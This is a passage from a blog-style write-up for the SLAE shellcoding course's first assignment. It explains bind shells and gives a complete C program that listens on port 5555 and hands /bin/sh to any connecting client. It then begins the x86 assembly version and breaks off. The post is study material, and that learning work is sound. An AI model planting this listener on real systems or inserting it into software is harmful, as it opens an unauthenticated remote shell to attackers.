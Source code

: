 ```yaml
---
layout: single
title: SLAE Assignment 1 -- TCP Bind Shell
date: 2019-5-4
classes: wide
header:
  teaser: /assets/images/OSCP/pwk.png
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
--- 
```

![](/assets/images/OSCP/OSCP.png)

## Prototype

<p>The first SLAE assignment is to develop shellcode for a bind TCP shell. What is a bind TCP shell? According to [Infosec Institute](https://resources.infosecinstitute.com/icmp-reverse-shell/#gref), a bind shell is "a type of shell in which the target machine opens up a communication port or a listener on the victim machine and waits for an incoming connection. The attacker then connects to the victim machine’s listener which then leads to code or command execution on the server."</p>

<p>The first thing we want to do, in order to see the syscalls required to support the creation of a bind shell, is find the simplest implementation of a bind shell in a language higher than assembly. After a bit of googling, the simplest version of a bind shell in C that I could find is the following, with my comments added:</p>

```c
#include <stdio.h>
#include <strings.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {

    // This is our first syscall, the socket() call. 
    int listen_sock = socket(AF_INET, SOCK_STREAM, 0);

    // It looks like here we're building a 'struct' which consists of AF_INET, the interface we want to listen on (all), and a port number to bind on. This entire entity will be referenced in arguments for the next syscall: bind()    
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           // IPv4
    server_addr.sin_addr.s_addr = INADDR_ANY;   // All interfaces (0.0.0.0)
    server_addr.sin_port = htons(5555);         // Port #

    // Our second syscall, and perhaps the most complicated: bind() 
    bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    // Our third syscall is listen()
    listen(listen_sock, 0);

    // Our fourth syscall is accept() 
    int conn_sock = accept(listen_sock, NULL, NULL);

    // Our fifth syscall, dup2(), is used 3 times
    dup2(conn_sock, 0);
    dup2(conn_sock, 1);
    dup2(conn_sock, 2);

    // Our final syscall is execve(), which runs a program fed to it as a string
    execve("/bin/sh", NULL, NULL);
}
```
Now that that's settled, it's become apparent we need to execute 6 syscalls in our assembly code:
+ socket
+ bind
+ listen
+ accept
+ dup2
+ execve

## Building Our Assembly Code

```nasm
global_start

section .txt
_start:
```
<p>The first thing we want to do is to clear out the registers we're going to use immediately. How do we know what registers we want to use? You can think of your syscall as something like an *arg[0]* in a command line program. So that's always going to correspond with the first register, EAX. Subsequent arguments will follow sequentially: *arg[1]* will correspond to EBX, *arg[2]* will correspond to ECX, etc.</p>

<p>If we consult `man 2 socket` for our first syscall, socket(), we see that it takes 3 arguments: 








